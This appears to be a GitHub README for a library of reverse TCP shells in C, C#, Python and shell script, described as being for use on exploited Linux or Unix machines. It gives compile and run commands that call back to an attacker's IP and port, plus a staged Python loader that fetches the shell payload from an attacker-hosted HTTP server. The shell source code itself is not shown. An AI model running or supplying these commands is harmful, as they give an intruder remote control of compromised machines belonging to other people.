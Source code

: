 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
